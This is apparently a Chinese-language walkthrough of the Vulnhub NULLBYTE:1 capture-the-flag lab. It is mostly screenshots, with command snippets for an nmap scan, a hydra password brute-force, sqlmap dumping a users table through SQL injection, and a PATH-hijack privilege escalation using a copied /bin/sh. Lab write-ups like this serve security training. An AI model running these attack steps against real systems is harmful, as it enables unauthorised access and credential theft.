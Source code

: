 ```yaml
---
title: Vulnhub 126 NULLBYTE 1
date: 2015-08-01
---
```


靶机链接：<https://www.vulnhub.com/entry/nullbyte-1,126/>

## 环境配置

| 名称        | IP             |
| ----------- | -------------- |
| Kali Linux  | 192.168.88.135 |
| NULLBYTE: 1 | 192.168.88.152 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.152
$ sudo nmap -v -A -p- $rip
```


![](./1.webp)

![](./2.webp)

![](./3.webp)

```bash
$ exiftool main.gif 
```

![](./4.webp)

![](./5.webp)

```bash
$ hydra -l "" -P /usr/share/dirb/wordlists/big.txt 192.168.88.152 http-post-form 
```

![](./6.webp)

![](./7.webp)

![](./8.webp)

![](./9.webp)

![](./10.webp)

```bash
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test"
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --dbs
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --tables -D seth
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --dump -T users  -D seth
```

![](./11.webp)

![](./12.webp)

![](./13.webp)

![](./14.webp)

![](./15.webp)

```bash
$ cp /bin/sh /tmp/ps
$ echo $PATH
$ export PATH=/tmp/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
$ ./procwatch
```

![](./16.webp)
